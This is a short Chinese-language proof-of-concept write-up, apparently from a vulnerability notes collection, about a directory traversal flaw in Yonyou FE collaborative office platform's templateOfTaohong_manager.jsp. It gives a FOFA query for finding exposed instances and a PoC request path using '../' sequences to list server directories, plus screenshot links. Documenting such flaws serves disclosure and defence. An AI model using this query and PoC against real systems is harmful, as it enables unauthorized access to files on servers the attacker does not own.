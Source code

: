 # 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

```
用友 FE协作办公平台
```

## FOFA

```
"FE协作"
```

## 漏洞复现

登录页面

![image-20220520141413849](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201414968.png)

验证POC

```
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![image-20220520141519859](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201415920.png)